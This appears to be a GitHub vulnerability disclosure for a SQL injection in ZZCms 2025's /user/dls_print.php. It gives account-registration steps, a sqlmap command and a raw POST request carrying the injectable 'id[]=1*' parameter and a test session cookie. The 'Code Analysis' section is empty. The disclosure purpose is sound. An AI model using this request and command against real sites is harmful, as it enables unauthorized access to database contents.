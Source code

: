 # ZZCms 2025 has a SQL Injection vulnerability
##### Vulnerability Location: /user/dls_print.php 
##### Affected Range: ZZCms 2025
##### Vulnerability Cause: dls_print.php contains an SQL injection vulnerability, which enables accounts with ordinary user privileges to access database information through this account.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions; Obtain data from other databases;
##### Link: http://www.zzcms.net/
# Vulnerability recurrence

First, register an account and select the registration type as: Company. When filling in the company name, keywords such as "biological" should be included

<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/df1580f0-6d5a-4022-9758-77276fcdd840" />

Log in to the created account and obtain the identity proof. Visit later: /user/dls_print.php 

<img width="1430" height="308" alt="image" src="https://github.com/user-attachments/assets/69311127-4132-4339-8be6-c08e37ea340e" />

Capture the data packet, convert it to the POST mode, and add the id parameter.Using SQLMAP:

<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/209aa215-7078-436a-8557-dc028c84f8d1" />

sqlmap command: python sqlmap.py -r 1.txt --level 5 --risk 3 --current-user --batch

Data packet:
```
POST /user/dls_print.php HTTP/1.1
Host: 127.0.0.1:8081
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: __51cke__=; PHPSESSID=1lgihann99he0kns9hofshtqll; UserName=admin1; PassWord=e00cf25ad42683b3df678c61f42c6bda; __tins__713776=%7B%22sid%22%3A%201758106876159%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201758109216370%7D; __51laig__=5
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

id[]=1*
```
# Code Analysis
